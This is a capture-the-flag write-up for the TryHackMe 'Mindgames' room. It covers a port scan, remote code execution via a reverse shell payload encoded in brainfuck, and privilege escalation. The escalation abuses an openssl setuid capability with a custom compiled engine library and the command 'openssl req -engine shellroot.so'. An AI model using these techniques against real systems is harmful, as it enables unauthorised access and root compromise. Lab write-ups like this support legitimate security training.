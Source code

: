 Machine: Mindgames
Link: https://tryhackme.com/room/mindgames  

Connect to Tryhackme vpn and spawn the machine  

export the ip ("export IP='target IP'")  

Start with a nmap/rustscan scan ("nmap -sC -sV $IP"/"rustscan -a $IP")  


```
----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/debangshu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.26.191:22
Open 10.10.26.191:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-06 22:53 IST
Initiating Ping Scan at 22:53
Scanning 10.10.26.191 [2 ports]
Completed Ping Scan at 22:53, 0.22s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:53
Completed Parallel DNS resolution of 1 host. at 22:53, 0.04s elapsed
DNS resolution of 1 IPs took 0.04s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:53
Scanning 10.10.26.191 [2 ports]
Discovered open port 22/tcp on 10.10.26.191
Discovered open port 80/tcp on 10.10.26.191
Completed Connect Scan at 22:53, 0.18s elapsed (2 total ports)
Nmap scan report for 10.10.26.191
Host is up, received conn-refused (0.21s latency).
Scanned at 2023-09-06 22:53:51 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds

```  

Open Ports: 22,80  

we didn't find anything from ssh so lets access the http port(80)  

![website](https://github.com/Debang5hu/ctf-writeups/assets/114200360/12cbe45e-6c13-4710-97cf-642639fc41e5)


from the website we find 2 code of 'brainfuck' and one section where we can execute our code.  

after decrypting the code we found the code to be of python  

![python_code](https://github.com/Debang5hu/ctf-writeups/assets/114200360/ea5bd0c1-6db7-422e-8d54-1d331e32cd1c)


so I tried to execute python code in the "Try before you buy" section but it didn't executed  

then I converted the python reverse shell payload into brainfuck and then executed.  

![python_to_brainfuck](https://github.com/Debang5hu/ctf-writeups/assets/114200360/6bddebc4-20fb-4eb3-ba7d-55b4dab2caba)  



It got RCE vulnerability and we got the shell  


```
python3 -c "import pty;pty.spawn('/bin/bash')"

```  

to get the user.txt  

```
cat /home/mindgames/user.txt 

```
![user_txt](https://github.com/Debang5hu/ctf-writeups/assets/114200360/bb11d5ed-fc9b-4b7a-902e-3bdbaf7968b1)




To get the Root Shell  
-------------------------  


let’s try "sudo -l" to see if mindgames can run sudo:  

but we don't have mindgames password  

Now let's check for capabilities

```
getcap -r / 2>/dev/null
```  

Openssl has the setuid cap.  

write an C program to exploit it  

refer to <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/"></a>  


![exploit](https://github.com/Debang5hu/ctf-writeups/assets/114200360/9acc3e67-57fc-410b-9e82-1c5a1946108d)


Now compile this c program  

```
gcc -fPIC -o filename.o -c filename.c && gcc -shared -o filename.so -lcrypto filename.o

```  

Now transfer the ".so" file to the target machine using python's http server  

then use Openssl and execute the  new lib  

```
openssl req -engine shellroot.so

```  

and boom we are ROOT  

to get the final flag  

```
cat /root/root.txt

```  

Thankyou










